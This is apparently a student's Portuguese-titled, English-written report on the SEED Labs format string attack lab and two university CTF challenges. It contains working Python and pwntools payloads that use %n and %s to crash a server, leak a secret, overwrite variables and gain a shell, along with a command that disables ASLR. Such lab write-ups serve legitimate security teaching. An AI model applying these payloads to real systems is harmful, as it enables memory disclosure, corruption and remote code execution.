




# Trabalho realizado na semana #7

<br>

# SEED Labs - Format String Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Turn off address space randomization for the stack and the heap.
   - Execute `sudo sysctl -w kernel.randomize_va_space=0`
   - This command instructs the kernel to stop randomizing the starting addresses of the stack and the heap. This is necessary for this lab because it makes the address at which our shellcode will be located more predictable.

2. Compile the 32-bit version of the vulnerable program.
   - The program is located in the `Labsetup/server-code` folder.
   - It can be built with the required flags (`-static` for static compilation, `-m32` for 32-bit executables and `-z execstack` to allow the stack to be executable).

3. Copy the `format-32` executable to the `Labsetup/fmt-containers` folder.
   - This can be done by running `make install` in the `server-code` folder.

4. Prepare the container environment.
   - In the `Labsetup` folder, build the container images using `dcbuild`.

5. Execute the required containers, using `dcup`.

<br>

## Task 1 : Crashing the Program

The goal of this task is to crash the program using the vulnerable `printf` command in the code.

1. Send the string "hello" to the server using `echo hello | nc -N 10.9.0.5 9090`.
   
   - The `nc` (`netcat`) command binds the standard input and output to a socket that is connected to the server on port `9090`.
   - The `-N` flag closes the socket when an EOF is sent to the input. This is done so that the connection doesn't hang indefinitely and the payload is passed on to `printf` on the server. This flag is optional since `^C` can be pressed to close the connection.

In the server logs, we can see the following:

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

2. Write the payload to a file using `echo '%3$n' > payload.txt`.

    - After reading the guide (Listing 1), we would assume that our exploit could be designed taking into account the fact that the `myprintf` function doesn't have any local variables. However, our testing reveals that this assumption is misleading. We used `gdb` to inspect the stack right before `printf(msg)` is called.
    
    As you can see, at offset `0008`, we have the frame pointer and, at `0004`, we have the `target` variable, even though there are no `target` variables defined in `myprintf`. The reason we suspect this happens is that a previous `printf` call used `target` and, because of that, its value had to be pushed onto the stack. Since another `printf` is going to use the `target` variable later, the compiler optimizes the code and doesn't remove it from the stack after the first `printf` that uses the `target` variable returns. 
  
    - Since we are trying to crash the program, one way to do it is to write to a write-protected section. For instance, if we try to write anything in the `.text` section, we will most likely get a segmentation fault. Analyzing the stack once again, we can see that, at offset `0012`, we have a pointer to an instruction in the `.text` section. If we try to write to this location, we should get a crash.

    - The address we are trying to write to is the third [4-byte\] pointer in the stack after the pointer to the format string, so we can write to it using `%3$n`. The `%n` modifier writes the number of characters printed by `printf` to a pointer (in this case, in the `.text` section).

3. Send the payload to the server using `cat payload.txt | nc -N 10.9.0.5 9090`.
   
4. Read the logs from the server and verify that the program has crashed.
    
Terminal 1 | Terminal 2
:---------:|:---------:
 | 

<br>

## Task 2 : Printing Out the Server Program's Memory

This is divided into two sub-tasks:

### A. Stack Data

To print out the data saved on the stack when the `printf` function is executed.

1. Create a payload where the first 4 bytes are unique and easily identifiable and are followed by a large sequence of `%x` modifiers.
   
    - This will be useful for determining the location of our payload in the stack. We have selected the identifier `0xABCD1234`.
    
    - The `%x` modifiers will print out the values in the stack in hexadecimal representation. We chose to use a sequence of 64 `%x` modifiers.
  
    - In our case, we created the payload with the help of a simple Python script we wrote. 
        
        ```python
        #!/usr/bin/python3
        import sys

        payload = bytearray.fromhex("ABCD1234") + b" %x " * 64

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - If we analyze the logs, we can easily find that there are 63 addresses before our input. Therefore, we need 64 `%x` modifiers in order to see the start of our input.

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### B. Heap Data

1. Write the payload to get the secret message

    - We know the address of the secret message because of the following log message:
  
      `server-10.9.0.5 | The secret message's address:  0x080b4008`

    - We also know that, if we write a sequence of bytes at the start of the file, it will get it in the 64th position on the stack.
    
    - We also know that the `%s` modifier takes a `char*` and prints the string in the given location.
  
    - Combining these two pieces of information, we can write the address of the message to the start of the buffer and use `%64$s` to read the string at the location specified by the 64th pointer in the stack (controlled by us).
    
    - In our case, we created the payload with the help of a simple Python script we wrote. 

        ```python
        #!/usr/bin/python3
        import sys

        payload = (0x080b4008).to_bytes(4, byteorder='little') + b"\n%64$s"

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - As you can see, the "A secret message" string was printed out to the terminal.

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

<br>

## Task 3 : Modifying the Server Program’s Memory

The goal of this task is to use the vulnerable `printf` function to modify the `target` global variable.

This is divided into two sub-tasks:

### A. Change the value to a different value

1. Write the payload to change the `target` variable.

    - We want to change the value of the `target` value. The only way to write to memory with `printf` is using the `%n` modifier, which takes a pointer and writes the number of characters that were printed by `printf` to the location pointed to by that variable. Therefore, we also need the address we are going to write to.
  
    - Inspecting the server logs, we can see the following log message:

        `server-10.9.0.5 | The target variable's address: 0x080e5068`

    - With this information, we can apply the same strategy as in the previous task, using `%64$n` instead of the `%64$s` sequence.

    - In our case, we created the payload with the help of a simple Python script we wrote. 

        ```python
        #!/usr/bin/python3
        import sys
        payload = (0x080e5068).to_bytes(4, byteorder='little') + b"%64$n"

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - As you can see, the `target` variable now has a value of `0x00000004`.

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### B. Change the value to 0x5000

1. Write the payload to change the `target` variable.
  
    - As explained previously, the `%n` modifier writes the number of characters printed by `printf` to memory. Therefore, if we want to write the value `0x5000`, `20480` in decimal base, to `target`, we need to print that same number of characters first.

    - However, at the start of the buffer, we need to place the address of `target`, which will result in 4 characters being printed (1 for each byte of the address).

    - Therefore, we need to print an additional `20480 - 4 = 20476` characters, after `target`'s address.

    - To accomplish that objective, we can add padding to the conversion specifications. To add padding to a specification, `%x` for instance, we can write `%<padding>x` where `<padding>` is the length of the output of that same specification. For instance, `printf("%5d", 1)` will print `"    1"`, with a length of 5.

    - In our case, we created the payload with the help of a simple Python script we wrote. 

        ```python
        #!/usr/bin/python3
        import sys

        payload = (0x080e5068).to_bytes(4, byteorder='little') + b"%20476x" + b"%64$n"

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - As you can see, the `target` variable now has a value of `0x00005000`.


Terminal 1 | Terminal 2
:---------:|:---------:
 | 

<br>
<br>
<br>

# CTF

## CTF - Desafio 1

```
RELRO           STACK CANARY      NX            PIE            RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     Yes	0		2	program
```

This program has a *Partial RELRO*, so we know that we won't be able to do a buffer overflow. Also, there is a *stack canary*, so there are low chances of having a stack smash. *NX* is enabled, so the stack isn't executable and we can't make a jump to a custom shellcode. There is no *PIE*.

After seeing the code, we've noticed a code segment vulnerable to format string attack:

```c
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```

Watching this, we know that the printf is vulnerable to format strings and even better, that we control its input.

We have also noticed that the flag is being loaded into a global variable `flag`, so, we can easily use GDB to find its address, by doing `p &flag`.


- In contrary to SEED Labs, we didn't need to calculate the offset, because we got our input imediatly:

```bash
❯ echo "ABCDE %s" | nc ctf-fsi.fe.up.pt 4004
Try to unlock the flag.
Show me what you got:You gave me this: ABCDE
Disqualified!
```

Now that we know the address of `flag`, we can build our payload:

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

payload = (0x804c060).to_bytes(4, byteorder='little') + b"%s"
p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

## CTF - Desafio 2

This challenge is similar to the first one, but with some changes.
In this challenge, instead of just reading the value of a global variable, you have to change its value to `0xbeef` to get a shell.

In this task, we cannot write directly 48879 (beef in decimal) to the address. Firstly, we have to write the global variable's address `0x0804c034`, which was found with gdb like in the previous challenge address to the payload, as in the previous examples and then, as the address are 4 Bytes, we write 48879 - 4 = `48875 Bytes`.

Also, by reading `man 3 printf`, we know that in printf, `%n` is a special string formatter that instead of displaying something, loads the number of character that have been printed before itself to the variable pointed by the argument (which, in this case is our address).

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

payload = (0x0804c034).to_bytes(4, byteorder='little') + b"%48875x" + b"%1$n"
p.recvuntil(b"here...")
p.sendline(payload)
p.interactive()
```


Note: The notation `%<n>$d` is just the same as applying the string formatter to the n-th value, but in a less exhaustive way.  